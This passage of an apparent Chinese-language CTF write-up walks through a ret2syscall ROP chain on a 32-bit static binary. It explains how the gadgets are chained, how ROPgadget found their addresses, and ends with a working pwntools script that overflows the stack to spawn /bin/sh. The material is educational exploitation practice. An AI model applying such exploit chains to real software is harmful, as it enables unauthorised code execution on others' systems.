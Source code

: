 图中引号括起来的部分不代表字符串，代表对应指令在代码段中地址。进行这样的溢出攻击之后，程序的流程及会变成这样（以下面红色的方案为例）：

* main()函数结束，返回到代码段`POP EAX; RET`（此时main()函数返回同样调用了RET指令，因此此时栈顶是execve的调用号）。首先执行`POP EAX`将execve的调用号弹出并放进EAX寄存器中；然后执行`RET`将当前的栈顶字节弹出并跳转到这个字节所记录的地址。
* 弹出的返回地址就是指令段`POP EDX; POP ECX; POP EBX; RET`的地址，按照语句顺序依次弹出NULL、NULL、“/bin/sh”地址到EDX、ECX、EBX寄存器中，然后再弹出栈顶字节并返回到该字节指向的地址。
* 最后一个代码段就是`INT 0x80`，执行系统调用的最后一句话。

好了，现在只需要把几个语句再代码段中的地址找出来就好了，然后组合起来再加上前置的112字节填充就可以咯！(通过file命令可见看到这个ret2syscall是静态链接的，这就代表它include的库的所有代码都会复制到他的代码段，这样子就很容易找到攻击需要的代码段了)

![image-20230418183552497](./README.assets/image-20230418183552497.png)

这里使用PwnTools提供的ROPgadget工具然找到想要的代码段所在的位置：

![image-20230418173034807](./README.assets/image-20230418173034807.png)

完美到好像是特意准备的呢！（叹息）总之地址找到了，开始写脚本：

```python
from pwn import *


code_execve = 11
addr_pop_eax_ret = 0x080bb196
addr_pop_edx_pop_ecx_pop_ebx_ret = 0x0806eb90
addr_bin_sh = 0x080be408
addr_int_0x80 = 0x08049421

pwn_obj = process("./ret2syscall")
pwn_obj.sendline(
    b"#" * 112 + 
    p32(addr_pop_eax_ret) + 
    p32(code_execve) + 
    p32(addr_pop_edx_pop_ecx_pop_ebx_ret) + 
    p32(0) + 
    p32(0) + 
    p32(addr_bin_sh) + 
    p32(addr_int_0x80))
pwn_obj.interactive()
```
